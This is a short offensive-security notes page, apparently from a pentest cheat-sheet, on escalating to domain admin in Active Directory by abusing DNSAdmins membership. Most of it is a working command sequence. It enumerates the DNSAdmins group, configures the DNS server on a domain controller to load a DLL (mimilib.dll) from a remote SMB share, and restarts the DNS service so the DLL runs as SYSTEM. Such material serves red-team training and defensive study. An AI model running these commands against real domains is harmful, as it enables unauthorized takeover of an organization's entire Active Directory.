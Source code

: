 # DNS Admins

Using DNS Admins for privilege escalation in Active Directory with PowerView and Mimikatz. The technique abuses the privileges given by default to the members of the DNS Admins group.

{% hint style="warning" %}
This technique is very risky and easily detectable as it requires a restart in DNS service.&#x20;
{% endhint %}

### <mark style="color:orange;">Conditions</mark>

* **Members of the DNS Admins group can load arbitrary DLL’s with the privileges of dns.exe (SYSTEM)**
* **If the DC serves as DNS server, we can escalate to DA**
* **But: need to be able to restart the DNS on the DC !!!**

### <mark style="color:orange;">Exploitation</mark>

The attack vector consists of injecting a malicious DLL into the DNS process running as a System to escalate when the service restarts.

```
# Enumerate members of DNSAdmins group
# Using PowerView 3.0
Get-DomainGroupMember "DNSAdmins"

# Using AD Module
Get-ADGroupMember -Identity "DNSAdmins"

# With privileges of DNSAdmins member, e.g. through PTH, configure DLL
# Using dnscmd.exe (needs RSAT DNS)
dnscmd dcorp-dc /config /serverlevelplugindll \\172.16.72.100\dll\mimilib.dll

# Using DNSServer module (needds RSAT DNS)
$dnsettings = Get-DNSServerSetting -ComputerName dcorp-dc -Verbose -All
$dnsettings.ServerLevelPluginDll = "\\172.16.72.100\dll\mimilib.dll"
Set-DnsServerSetting -InputObject $dnsettings -ComputerName dcorp-dc -Verbose

# Restart DNS service
sc \\dcorp-dc stop dns
sc \\dcorp-dc start dns
```

